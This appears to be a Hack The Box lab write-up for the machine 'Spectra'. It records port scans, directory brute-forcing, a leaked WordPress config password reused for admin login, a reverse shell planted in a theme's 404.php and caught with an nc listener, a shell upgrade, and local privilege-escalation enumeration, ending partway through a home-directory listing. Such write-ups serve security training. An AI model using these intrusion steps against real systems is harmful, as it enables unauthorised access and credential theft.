





# 00 - Loot

Credentials:

| Service   | Username      | Password           | Found at                                                     |
| --------- | ------------- | ------------------ | ------------------------------------------------------------ |
| WordPress | administrator | devteam01          | `http://spectra.htb/testing/wp-config.php.save`, reused password |
| ~~MySQL~~ | ~~devtest~~   | ~~devteam01~~      | `http://spectra.htb/testing/wp-config.php.save`              |
| MySQL     | dev           | development01      | config file for `/main`                                      |
| SSH       | katie         | SummerHereWeCome!! | auto login /etc/login/passwd                                 |

Valid Usernames

```
chronos
root
katie
```

# 10 - Reconnaissance

## Port scanning - Nmap

### TCP

Full scan

```
→ root@kali «spectra» «10.10.14.21» 
$ nmap -p- -sV --reason -oA nmap/10-allport 10.10.10.229
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-15 10:10 EDT
Nmap scan report for 10.10.10.229
Host is up, received echo-reply ttl 63 (0.052s latency).
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.1 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 nginx 1.17.4
3306/tcp open  mysql   syn-ack ttl 63 MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.14 seconds
```

Default script scan

```
→ root@kali «spectra» «10.10.14.21» 
$ nmap -p22,80,3306 -sC -sV -oA nmap/10-defaultscan 10.10.10.229
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-15 10:15 EDT
Nmap scan report for 10.10.10.229
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.74 seconds
```


# 15 - Enumeration

## TCP 3306 - MySQL

```
→ root@kali «spectra» «10.10.14.21» 
$ mysql -h 10.10.10.229 -P 3306
ERROR 1130 (HY000): Host '10.10.14.21' is not allowed to connect to this MySQL server
```


## TCP 80 - Website

Page view


Page source

- http://spectra.htb/main/index.php
- http://spectra.htb/testing/index.php


Add spectra.htb to /etc/hosts

```
→ root@kali «spectra» «10.10.14.21» 
$ echo '10.10.10.229 spectra.htb' >> /etc/hosts
```

## TCP 80 - spectra.htb

### /main




### /testing



Directory listing is enabled.


wp-config.php.save

```
→ root@kali «spectra» «10.10.14.21» 
$ curl http://spectra.htb/testing/wp-config.php.save
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```


### Gobuster

/testing

```shell
→ root@kali «spectra» «10.10.14.21» 
$ gobuster dir -u http://spectra.htb/testing/ -x txt,php -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://spectra.htb/testing/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/05/15 10:31:43 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 169] [--> http://spectra.htb/testing/wp-content/]
/wp-admin             (Status: 301) [Size: 169] [--> http://spectra.htb/testing/wp-admin/]  
/wp-includes          (Status: 301) [Size: 169] [--> http://spectra.htb/testing/wp-includes/]
/xmlrpc.php           (Status: 200) [Size: 0]                                                
/index.php            (Status: 500) [Size: 2646]                                             
/wp-trackback.php     (Status: 500) [Size: 2646]                                             
/wp-login.php         (Status: 500) [Size: 2646]                                             
/license.txt          (Status: 200) [Size: 19915]                                            
/wp-config.php        (Status: 500) [Size: 2646]                                             
Progress: 71961 / 90003 (79.95%)                                                            [ERROR] 2021/05/15 10:39:05 [!] parse "http://spectra.htb/testing/error\x1f_log": net/url: invalid control character in URL
                                                                                             
===============================================================
2021/05/15 10:40:54 Finished
===============================================================
```

/main

```
→ root@kali «spectra» «10.10.14.21» 
$ gobuster dir -u http://spectra.htb/main/ -x txt,php -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://spectra.htb/main/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/05/15 10:31:27 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 169] [--> http://spectra.htb/main/wp-content/]
/wp-admin             (Status: 301) [Size: 169] [--> http://spectra.htb/main/wp-admin/]  
/wp-includes          (Status: 301) [Size: 169] [--> http://spectra.htb/main/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]                                            
/index.php            (Status: 301) [Size: 0] [--> http://spectra.htb/main/]              
/wp-trackback.php     (Status: 200) [Size: 135]                                           
/wp-login.php         (Status: 200) [Size: 4902]                                          
/license.txt          (Status: 200) [Size: 19915]                                         
/reno                 (Status: 403) [Size: 153]                                           
/reklaam.txt          (Status: 403) [Size: 153]                                           
/restaurantes         (Status: 403) [Size: 153]                                           
/residents            (Status: 403) [Size: 153]                                           
/resource_center.txt  (Status: 403) [Size: 153]                                           
/renovation.txt       (Status: 403) [Size: 153]                                           
/reward               (Status: 403) [Size: 153]                                           
/resources3.txt       (Status: 403) [Size: 153]                                           
/reserved.txt         (Status: 403) [Size: 153]                                           
/rewards-program      (Status: 403) [Size: 153]                                           
/rfc                  (Status: 403) [Size: 153]                                           
/rex                  (Status: 403) [Size: 153]                                           
/rms.txt              (Status: 403) [Size: 153]                                           
/reward.txt           (Status: 403) [Size: 153]                                           
/rnd                  (Status: 403) [Size: 153]                                           
/rewards-program.txt  (Status: 403) [Size: 153]                                           
/rfc.txt              (Status: 403) [Size: 153]                                           
/rex.txt              (Status: 403) [Size: 153]                                           
/restaurantes.txt     (Status: 403) [Size: 153]                                           
/rock                 (Status: 403) [Size: 153]                                           
/rock.txt             (Status: 403) [Size: 153]                                           
/rose-gallery         (Status: 403) [Size: 153]                                           
/rms                  (Status: 403) [Size: 153]                                           
/roll                 (Status: 403) [Size: 153]                                           
/rnd.txt              (Status: 403) [Size: 153]                                           
/roses                (Status: 403) [Size: 153]                                           
/rostov.txt           (Status: 403) [Size: 153]                                           
/residents.txt        (Status: 403) [Size: 153]                                           
/wp-config.php        (Status: 200) [Size: 0]                                             
Progress: 71949 / 90003 (79.94%)                                                         [ERROR] 2021/05/15 10:38:46 [!] parse "http://spectra.htb/main/error\x1f_log": net/url: invalid control character in URL
                                                                                          
===============================================================
2021/05/15 10:40:37 Finished
===============================================================
```


# 20 - Foothold

## WP-Admin Dashboard


### Dropping Reverse Shell Code to 404.php

Attempt 1


Comment it out


### Shell as nginx

Trigger via curl

```
→ root@kali «spectra» «10.10.14.21» 
$ curl -s http://spectra.htb/main/wp-content/themes/twentynineteen/404.php
```

Listener

```
→ root@kali «spectra» «10.10.14.21» 
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.229] 35166
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
 09:14:42 up 10:53,  0 users,  load average: 0.02, 0.04, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ hostname
spectra
```

                                        


### Shell Upgrade

First attempt

```
$ which bash
which: no bash in ((null))
$ which python 
which: no python in ((null))
$ which python3
which: no python3 in ((null))
```

Manual lookup to /usr/bin:

```
$ ls /usr/bin/ | grep python 
python
python-config
python-wrapper
python2
python2.7
python3
python3.6
python3.6m
```

Upgrade

```
$ /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
nginx@spectra / $ export TERM=xterm
nginx@spectra / $ ^Z
[1]  + 7285 suspended  nc -nvlp 9001
→ root@kali «spectra» «10.10.14.21» 
$ stty raw -echo; fg
[1]  + 7285 continued  nc -nvlp 9001

nginx@spectra / $ 
nginx@spectra / $ env
TERM=xterm
USER=nginx
PWD=/
SHLVL=1
HOME=/home/nginx
_=/usr/bin/env
nginx@spectra / $ export PATH=$PATH:/usr/bin 
nginx@spectra / $ which python
/usr/local/bin/python
```

Colorful

```
→ root@kali «spectra» «10.10.14.21» 
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.229] 35390
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
 11:20:37 up 12:59,  0 users,  load average: 0.08, 0.02, 0.01
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ export TERM=xterm
$ export PATH=/usr/bin:$PATH
$ python -c 'import pty;pty.spawn("/bin/bash")'
nginx@spectra / $ ^Z
[1]  + 8001 suspended  nc -nvlp 9001
→ root@kali «spectra» «10.10.14.21» 
$ stty raw -echo; fg
[1]  + 8001 continued  nc -nvlp 9001

nginx@spectra / $ stty rows 30 cols 117
nginx@spectra / $ 
```




# 25 - Privilege Escalation

## Internal Enumeration

### Common

OS:

- Chrome OS

```
nginx@spectra / $ uname -a 
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
nginx@spectra / $ cat /etc/*-release
BUILD_NUMBER=22
CHROMEOVER_BUILD_COMMIT=829e617e7b8467c355f9bd61f87835bfeb0da547
CHROMIUMOS_MANIFEST_COMMIT=38c4f6ca60a47f7fabf0fcd5d6feabf349e3f002
CHROMIUM_BROWSER_COMMIT=ef24d0b3349c2324d18a3f32bc35d14e796aeddc
PIPELINE_TAG=prod
USE_FLAGS=-cros-debug beerover virtualbox
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```

Root dir

```
nginx@spectra / $ ls -la /
total 108
drwxr-xr-x  22 root root        4096 Feb  2 14:52 .
drwxr-xr-x  22 root root        4096 Feb  2 14:52 ..
drwxr-xr-x   2 root root        4096 Jan 15 15:54 bin
drwxr-xr-x   4 root root        4096 Jan 17 20:10 boot
drwxr-xr-x  15 root root        1980 May 14 22:22 dev
drwxr-xr-x  63 root root        4096 Feb 11 10:24 etc
drwxr-xr-x   8 root root        4096 Feb  2 15:55 home
drwxr-xr-x   7 root root        4096 Feb 11 10:26 lib
drwxr-xr-x   6 root root       36864 Feb 11 10:26 lib64
drwx------   2 root root       16384 Jan 15 15:52 lost+found
drwxrwxrwt   2 root root          40 May 14 22:21 media
drwxr-xr-x   4 root root        4096 Jan 15 15:53 mnt
drwxr-xr-x  10 root root        4096 Feb  3 16:42 opt
lrwxrwxrwx   1 root root          26 Jan 15 15:33 postinst -> usr/sbin/chromeos-postinst
dr-xr-xr-x 277 root root           0 May 14 22:21 proc
drwx------   6 root root        4096 Feb 11 10:27 root
drwxr-xr-x  37 root root         880 May 14 22:22 run
drwxr-xr-x   2 root root        4096 Feb 11 10:24 sbin
drwxr-xr-x   2 root developers  4096 Jun 29  2020 srv
dr-xr-xr-x  12 root root           0 May 14 22:21 sys
drwxrwxrwt   2 root root         760 May 15 10:26 tmp
drwxr-xr-x  11 root root        4096 Jan 15 15:53 usr
drwxr-xr-x  10 root root        4096 May 14 22:21 var
nginx@spectra / $
```

```
nginx@spectra / $ find / -type f -group developers 2>/dev/null -ls
    32121      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test6.conf
    32123      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test7.conf
    32109      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test3.conf
    32112      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test4.conf
    32103      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test.conf
    32126      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test8.conf
    32128      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test9.conf
    32106      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test10.conf
    32108      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test2.conf
    32120      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test5.conf
    32105      4 -rw-rw----   1 root     developers      478 Jun 29  2020 /etc/init/test1.conf
    23763      4 -rwxrwxr-x   1 root     developers      251 Jun 29  2020 /srv/nodetest.js
```

Users

```
nginx@spectra / $ cat /etc/passwd | grep sh$  
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

groups

```
nginx@spectra / $ id chronos
uid=1000(chronos) gid=1000(chronos) groups=1000(chronos),7(lp),18(audio),27(video),222(input),1001(chronos-access),420(crash-user-access),600(cras),304(fuse-drivefs),240(brltty),208(pkcs11),303(policy-readers),601(wayland)
nginx@spectra / $ id katie
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
nginx@spectra / $ id 
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $
```

`/home` enumeration

```
$ ls -la /home
total 32
drwxr-xr-x  8 root    root    4096 Feb  2 15:55 .
drwxr-xr-x 22 root    root    4096 Feb  2 14:52 ..
drwx------  4 root    root    4096 Jul 20  2020 .shadow
drwxr-xr-x 20 chronos chronos 4096 May 14 22:23 chronos
drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
$ ls -lR /home 2>/dev/null
/home:
total 20
drwxr-xr-x 20 chronos chronos 4096 May 14 22:23 chronos
drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user

/home/chronos:
total 5224
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 AutofillStates
-rw-r--r--  1 chronos chronos 4194304 May 14 22:22 BrowserMetrics-spare.pma
-rw-r--r--  1 chronos chronos 1048576 May 14 22:21 CrashpadMetrics-active.pma
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 Crowd Deny
drwxr-xr-x 13 chronos chronos    4096 May 14 22:23 Default
drwx------  2 chronos chronos    4096 May 14 22:21 Dictionaries
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 FileTypePolicies
-rw-r--r--  1 chronos chronos       0 May 14 22:21 First Run
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 Floc
drwx------  3 chronos chronos    4096 May 14 22:21 GrShaderCache
-rw-------  1 chronos chronos    3792 May 14 22:21 Local State
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 MEIPreload
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 OriginTrials
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 SSLErrorAssistant
drwx------  2 chronos chronos    4096 May 14 22:21 Safe Browsing
-rw-------  1 chronos chronos   20480 May 14 22:22 Safe Browsing Cookies
-rw-------  1 chronos chronos       0 May 14 22:22 Safe Browsing Cookies-journal
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 SafetyTips
drwx------  3 chronos chronos    4096 May 14 22:21 ShaderCache
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 SmartDim
drwxr-xr-x  3 chronos chronos    4096 May 14 22:21 Subresource Filter
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 TLSDeprecationConfig
drwxr-xr-x  2 chronos chronos    4096 May 14 22:21 ZxcvbnData
-rw-r--r--  1 chronos chronos       4 May 14 22:23 chrome_shutdown_ms.txt
-rw-r--r--  1 chronos chronos      17 May 14 22:23 startup_settings_cache.json
drwxr-xr-x  2 chronos chronos    4096 May 14 22:23 user

/home/chronos/AutofillStates:
total 0

/home/chronos/Crowd Deny:
total 0

/home/chronos/Default:
total 692
drwx------ 3 chronos chronos   4096 May 14 22:21 Cache
drwx------ 4 chronos chronos   4096 May 14 22:21 Code Cache
drwx------ 2 chronos chronos   4096 May 14 22:21 Extension Rules
drwx------ 2 chronos chronos   4096 May 14 22:21 Extension State
-rw------- 1 chronos chronos  20480 May 14 22:21 Favicons
-rw------- 1 chronos chronos      0 May 14 22:21 Favicons-journal
drwx------ 3 chronos chronos   4096 May 14 22:21 GCM Store
-rw------- 1 chronos chronos 118784 May 14 22:23 History
-rw------- 1 chronos chronos      0 May 14 22:23 History-journal
drwx------ 3 chronos chronos   4096 May 14 22:21 Local Storage
-rw------- 1 chronos chronos  40960 May 14 22:21 Login Data
-rw------- 1 chronos chronos      0 May 14 22:21 Login Data-journal
-rw------- 1 chronos chronos 151552 May 14 22:21 Media History
-rw------- 1 chronos chronos      0 May 14 22:21 Media History-journal
-rw------- 1 chronos chronos    144 May 14 22:23 Network Persistent State
drwx------ 2 chronos chronos   4096 May 14 22:21 Platform Notifications
-rw------- 1 chronos chronos  33494 May 14 22:23 Preferences
-rw------- 1 chronos chronos  36864 May 14 22:21 Reporting and NEL
-rw------- 1 chronos chronos      0 May 14 22:21 Reporting and NEL-journal
drwx------ 2 chronos chronos   4096 May 14 22:21 Site Characteristics Database
drwx------ 3 chronos chronos   4096 May 14 22:21 Sync Data
-rw-r--r-- 1 chronos chronos 131072 May 14 22:21 Visited Links
-rw------- 1 chronos chronos  90112 May 14 22:21 Web Data
-rw------- 1 chronos chronos      0 May 14 22:21 Web Data-journal
drwx------ 3 chronos chronos   4096 May 14 22:21 blob_storage
drwx------ 2 chronos chronos   4096 May 14 22:21 data_reduction_proxy_leveldb
-rw------- 1 chronos chronos  16384 May 14 22:21 heavy_ad_intervention_opt_out.db
-rw------- 1 chronos chronos      0 May 14 22:21 heavy_ad_intervention_opt_out.db-journal
-rw------- 1 chronos chronos  16384 May 14 22:21 previews_opt_out.db
-rw------- 1 chronos chronos      0 May 14 22:21 previews_opt_out.db-journal

/home/chronos/FileTypePolicies:
total 0

/home/chronos/Floc:
total 0

/home/chronos/MEIPreload:
total 0

/home/chronos/OriginTrials:
total 0

/home/chronos/SSLErrorAssistant:
total 0

/home/chronos/SafetyTips:
total 0

/home/chronos/SmartDim:
total 0

/home/chronos/Subresource Filter:
total 4
drwxr-xr-x 2 chronos chronos 4096 May 14 22:21 Unindexed Rules

/home/chronos/Subresource Filter/Unindexed Rules:
total 0

